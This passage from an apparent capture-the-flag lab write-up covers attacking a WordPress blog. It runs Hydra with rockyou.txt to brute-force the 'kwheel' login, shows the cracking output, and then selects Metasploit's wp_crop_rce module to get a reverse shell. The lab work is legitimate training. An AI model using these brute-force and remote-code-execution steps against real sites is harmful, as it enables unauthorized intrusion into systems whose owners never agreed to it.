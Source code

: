 It seems that we have a user that we did not encounter before during our enum4linux.

Let's brute force the password for user "kwheel" using Hydra.

```bash
┌──(root💀kali)-[~]
└─# hydra -l kwheel -P /home/kali/Desktop/rockyou.txt 10.10.48.134 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -I 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-06 03:09:42
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.48.134:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username

[STATUS] 1115.00 tries/min, 1115 tries in 00:01h, 14343284 to do in 214:24h, 16 active


[STATUS] 590.33 tries/min, 1771 tries in 00:03h, 14342628 to do in 404:56h, 16 active

[STATUS] 425.00 tries/min, 2975 tries in 00:07h, 14341424 to do in 562:25h, 16 active
[80][http-post-form] host: 10.10.48.134   login: kwheel   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-06 03:16:45
```

Now we have the password for "kwheel" and we can use a Metasploit module to obtain a reverse shell.

```bash
msf6 > search crop-image

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_crop_rce

msf6 > use 0
```

Now we just need to provide the options USERNAME, PASSWORD, RHOSTS, and LHOSTS, and execute that stuff!
